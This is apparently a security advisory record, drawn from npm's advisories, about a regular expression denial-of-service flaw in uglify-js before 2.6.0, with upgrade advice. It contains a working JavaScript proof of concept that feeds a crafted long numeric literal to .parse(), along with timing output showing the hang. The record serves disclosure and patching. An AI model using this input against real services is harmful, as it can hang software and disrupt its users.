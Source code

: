 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/uglify-js
Review-Date: '2015-10-24'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Update to version 2.6.0 or later
### Details
uglify-js is vulnerable to regular expression denial of service (ReDoS) when certain types of input is passed into .parse().  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  ### Proof of Concept  ``` var u = require('uglify-js'); var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }  u.parse("var a = " + genstr(process.argv[2], "1") + ".1ee7;"); ```  ### Results ``` $ time node test.js 10000 real	0m1.091s user	0m1.047s sys	0m0.039s  $ time node test.js 80000 real	0m6.486s user	0m6.229s sys	0m0.094s ```
<br><br>• Affected Versions: <2.6.0
<br>• Patched Versions: >=2.6.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.

